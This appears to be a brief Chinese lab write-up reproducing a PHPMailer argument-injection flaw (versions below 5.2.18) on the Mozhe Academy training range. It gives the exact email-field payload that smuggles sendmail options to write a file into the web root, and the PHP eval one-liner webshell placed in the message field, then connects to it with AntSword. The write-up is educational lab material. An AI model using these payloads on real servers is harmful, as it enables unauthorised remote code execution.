 # 0x00 复现环境
使用复现环境：https://www.mozhe.cn/bug/detail/124

# 0x01 利用条件
无

# 0x02 影响版本
<5.2.18

# 0x03 漏洞复现
启动墨者学院的靶场环境，看到一个网站，点击底部的“Mail Contact”，进入“http://219.153.49.228:49754/mail.php”  
在name处随便输入比如“aaa”，在email处输入：  
```
"aaa". -OQueueDirectory=/tmp/. -X/var/www/html/a.php @aaa.com
```
在message处输入一句话木马：  
```
<?php @eval($_POST['a']); ?>
```
蚁剑链接http://219.153.49.228:49754/a.php ，成功拿到webshell，如下图  
![image](./0.png)

# 0x04 踩坑记录
坑1：上传完一句话木马后，页面会响应3-5分钟，响应时间较长

# 参考链接
https://www.jianshu.com/p/745c82d8b6e0
